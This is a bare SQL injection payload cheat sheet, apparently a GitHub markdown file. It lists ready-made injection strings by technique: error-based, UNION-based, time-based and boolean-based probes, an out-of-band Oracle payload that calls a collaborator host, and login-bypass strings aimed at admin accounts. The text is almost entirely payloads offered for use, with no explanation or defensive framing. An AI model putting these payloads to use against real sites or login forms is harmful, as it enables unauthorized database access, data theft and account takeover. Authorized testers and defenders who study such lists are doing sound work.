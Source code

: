 
# SQLi

##### Error-based

```
' OR 1=1
' or 1=1; -- 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
```

##### UNION-based

```
' ORDER BY 2--
' ORDER BY 3--
' ORDER BY 4--
' UNION SELECT NULL,NULL,NULL
' UNION SELECT "NULL","NULL","NULL"
' UNION SELECT "","",""
```

##### Time-based

```
');waitfor delay '0:0:5'--
' or pg_sleep(5)--
' or sleep(5)='
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)--
```

##### Boolean-based

```
SELECT * FROM products WHERE id = 42 and 1=1
SELECT * FROM products WHERE id = 42 and 1=0
```


##### OUT-OF-BAND

```
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```

### Auth Bypass

```
admin") or ("1"="1"--
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin") or "1"="1"/*
```
